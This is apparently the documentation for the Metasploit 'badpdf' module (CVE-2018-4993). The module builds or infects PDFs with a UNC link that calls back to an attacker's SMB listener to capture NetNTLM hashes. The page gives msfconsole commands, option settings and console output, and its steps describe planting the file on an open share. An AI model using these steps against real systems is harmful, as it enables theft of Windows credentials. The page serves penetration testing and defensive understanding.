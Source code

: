 This module will either create a blank pdf document which contains a UNC link which will connect back to LHOST if file FILENAME options is used 
or if PDFINJECT option is used will try and inject the necessary UNC code into an existing PDF document.

## Vulnerable Application

Various PDF Readers. Note Adobe released the patch APSB18-09 to prevent this and
FoxIT after version 9.1 is no longer vulnerable.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/badpdf```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename.
This can be changed using set FILENAME test.pdf

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

**PDFINJECT**
This option allows you to inject the UNC code into an existing PDF document
This can be changed using set PDFINJECT /path/to/file/pdf.pdf

## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(fileformat/badpdf) > show info

       Name: BADPDF Malicious PDF Creator
     Module: auxiliary/fileformat/badpdf
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  CheckPoint researchers - Assaf Baharav, Yaron Fruchtmann, Ido Solomon

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        Filename
  LHOST                       yes       Host listening for incoming SMB/WebDAV traffic
  PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into

Description:
  This module can either creates a blank PDF file which contains a UNC 
  link which can be used to capture NetNTLM credentials, or if the 
  PDFINJECT option is used it will inject the necessary code into an 
  existing PDF document if possible.

References:
  https://cvedetails.com/cve/CVE-2018-4993/
  https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/

msf auxiliary(fileformat/badpdf) > 

msf auxiliary(fileformat/badpdf) > set filename test.pdf
filename => test.pdf
msf auxiliary(fileformat/badpdf) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf auxiliary(fileformat/badpdf) > exploit

[+] test.pdf stored at /root/.msf4/local/test.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > set filename ""
filename => 
msf auxiliary(fileformat/badpdf) > set pdfinject /root/Desktop/example.pdf
pdfinject => /root/Desktop/example.pdf
msf auxiliary(fileformat/badpdf) > exploit

[+] Malicious file written to /root/Desktop/example_malicious.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > 
 
  ```